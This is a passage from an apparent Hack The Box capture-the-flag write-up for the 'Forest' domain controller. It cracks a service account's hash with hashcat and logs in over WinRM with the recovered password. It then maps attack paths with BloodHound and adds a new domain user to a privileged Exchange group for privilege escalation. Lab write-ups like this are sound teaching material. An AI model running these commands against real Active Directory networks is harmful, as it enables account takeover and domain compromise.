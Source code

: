 Cracking the hash with **Hashcat**:
```
hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is:
> s3rvice

On port 5985 **WinRM** is open, which means that a shell sessions can be started with _svc-alfresco_ with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):
```
evil-winrm.rb -u svc-alfresco -p s3rvice -i 10.10.10.161
```

## Privilege Escalation

A SMB share can be mounted to transfer files between our local client and the box.

Creating an SMB share on local box:
```
impacket-smbserver share $(pwd) -smb2support -user User -password TestPass321
```

Mounting the share on the box and accessing it:
```
$pass = ConvertTo-SecureString 'TestPass321' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('User',$pass)
New-PSDrive -name share -PSProvider FileSystem -Credential $cred -Root \\10.10.14.3\share

cd share:
```

As this is a domain controller, attack paths for **Active Directory** can be gathered with **BloodHound**.
The ingestor **SharpHound.exe** has to be run first to get information about all domain objects:
```
.\SharpHound.exe
```

After it finished, it creates a ZIP-file that can be dragged into **BloodHound** for analysis.
The pre-built query _"Shortest Paths to Domain Admins from Owned Principals"_ shows a path from _svc-alfresco_ to the _Domain Administrators_ group:

![svc-alfresco to Domain Admins](https://kyuu-ji.github.io/htb-write-up/forest/forest_bh-1.png)

The user is in the _Account Operators_ group and the [documentation about AD Security Groups](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups) explains what kind of permissions users in this group have:
```
The Account Operators group grants limited account creation privileges to a user.
Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers.
```

So lets create a new user a put it into the _Exchange Windows Permissions_ group:
```
net user NewUser Pass1234 /add /domain

net group "Exchange Windows Permissions" /add NewUser
```
